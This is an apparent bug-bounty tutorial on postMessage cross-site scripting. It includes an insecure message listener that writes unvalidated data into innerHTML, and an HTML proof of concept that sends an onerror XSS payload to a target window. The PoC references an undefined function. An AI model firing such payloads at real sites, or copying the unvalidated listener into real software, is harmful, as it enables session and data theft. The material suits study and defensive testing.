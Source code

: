 # **PostMessage XSS (Cross-Site Scripting) Vulnerability**

## **Introduction**
The `postMessage` API is widely used in modern web applications to enable cross-origin communication between different windows, iframes, and pop-ups. However, **if the receiving application does not properly validate the origin of incoming messages**, it may be vulnerable to **PostMessage XSS**.

This vulnerability allows attackers to send malicious data from an **untrusted source (e.g., sandboxed iframe, null origin, or malicious website)** to a trusted application, leading to **security risks such as data theft, session hijacking, and arbitrary JavaScript execution.**

---

## **How PostMessage Works**
The `window.postMessage()` function allows scripts running in one window to send messages to another window. The syntax is:

```javascript
window.postMessage(message, targetOrigin, [transfer]);
```

- `message`: The data to be sent to the target window.
- `targetOrigin`: A string specifying the expected origin of the recipient (use `"*"` to allow any origin, which is insecure).
- `transfer`: Optional, used for passing objects.

Example of secure usage:
```javascript
window.postMessage("data", "https://trusted-site.com");
```

---

## **Vulnerability: Improper Origin Validation**
If an application listens for `postMessage` events **without verifying the sender’s origin**, an attacker can exploit this by crafting a malicious message from an unauthorized source.

### **Example of an Insecure Implementation**
```javascript
window.addEventListener("message", function (event) {
    // No origin validation
    document.body.innerHTML = event.data;
});
```
**Security Issue:**  
- The application directly processes any received message without verifying the sender's origin.
- If an attacker sends a malicious payload (e.g., JavaScript injection), it can lead to XSS.

### **Exploitation Scenario**
1. The vulnerable website listens for messages using `postMessage`, but **does not check the sender’s origin**.
2. An attacker hosts a malicious page and sends a **crafted message** to the vulnerable application.
3. The malicious script gets executed inside the vulnerable website, leading to **DOM-based XSS**.

---

## **Exploiting PostMessage XSS**

### **Proof of Concept (PoC)**
The following PoC demonstrates how an attacker can inject malicious JavaScript into a vulnerable application by exploiting a poorly validated `postMessage` request.

```html
<!doctype html>
<html>
<head>
    <meta charset="UTF-8" />
    <title>PostMessage XSS PoC</title>
    <script>
        function pocLink() {
            var ref = window.open('https://vulnerable-website.com'); // Open target
            ref.postMessage("<img src=x onerror=alert('XSS Exploited')>", "https://vulnerable-website.com");
        }
    </script>
</head>
<body>
    <a href="#" onclick="pocLink();">Click to Exploit</a>          
    <iframe src="https://vulnerable-website.com" onload="pocFrame(this.contentWindow)"></iframe>                    
</body>
</html>
```

### **Breakdown of the Attack**
- The script opens the target **vulnerable website** in a new window (`window.open()`).
- It **sends a malicious payload** via `postMessage()` that contains an XSS injection.
- If the application **does not validate the message origin**, the payload executes, triggering **arbitrary JavaScript execution**.

---

## **Impact of PostMessage XSS**
An attacker exploiting this vulnerability can:
- **Execute malicious JavaScript** on the vulnerable application.
- **Steal sensitive data** such as session tokens, authentication credentials, or user inputs.
- **Modify page content** or inject phishing links.
- **Bypass Same-Origin Policy (SOP)** by controlling a trusted domain’s behavior.
- **Perform clickjacking attacks** by embedding the site in an iframe.

---
*Enhanced and reformatted for HowToHunt repository by [remonsec](https://x.com/remonsec)*
